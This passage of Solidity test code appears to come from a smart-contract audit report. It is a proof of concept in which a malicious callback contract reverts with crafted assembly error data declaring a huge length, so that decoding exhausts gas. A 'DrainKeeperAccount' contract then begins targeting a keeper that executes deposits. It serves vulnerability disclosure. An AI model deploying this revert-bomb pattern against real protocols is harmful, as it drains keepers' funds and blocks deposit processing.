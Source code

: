```solidity
    uint256[] compactedDecimals;
    uint256[] compactedMinPrices;
    uint256[] compactedMinPricesIndexes;
    uint256[] compactedMaxPrices;
    uint256[] compactedMaxPricesIndexes;
    bytes[] signatures;
    address[] priceFeedTokens;
}

contract Keeper is Test {
    fallback() external payable {
    }
}

contract Callback is Test {
    function afterDepositExecution(bytes32 key, Deposit.Props memory deposit) external {
        assembly{
            let free_mem_ptr := mload(64)
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 0xfffffff) // This will cause an out of gas on MLOAD
            mstore(add(free_mem_ptr, 36), 8)
            mstore(add(free_mem_ptr, 68), "deadbeef")
            revert(free_mem_ptr, 100)
        }
    }
    function afterDepositCancellation(bytes32 key, Deposit.Props memory deposit) external {
        assembly{
            let free_mem_ptr := mload(64)
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 0xfffffff ) // This will cause an out of gas on MLOAD
            mstore(add(free_mem_ptr, 36), 8)
            mstore(add(free_mem_ptr, 68), "deadbeef")
            revert(free_mem_ptr, 100)
        }
    }
}

interface IRoleStore{
    function grantRole(address account, bytes32 roleKey) external;
}

contract DrainKeeperAccount is Test {
    struct CreateDepositParams {
        address receiver;
        address callbackContract;
        address market;
        address initialLongToken;
        address initialShortToken;
        address[] longTokenSwapPath;
        address[] shortTokenSwapPath;
        uint256 minMarketTokens;
        bool shouldUnwrapNativeToken;
        uint256 executionFee;
        uint256 callbackGasLimit;
    }

    uint256 public constant COMPACTED_64_BIT_LENGTH = 64;
    uint256 public constant COMPACTED_64_BITMASK = ~uint256(0) >> (256 - COMPACTED_64_BIT_LENGTH);
    
    uint256 public constant COMPACTED_32_BIT_LENGTH = 32;
    uint256 public constant COMPACTED_32_BITMASK = ~uint256(0) >> (256 - COMPACTED_32_BIT_LENGTH);
```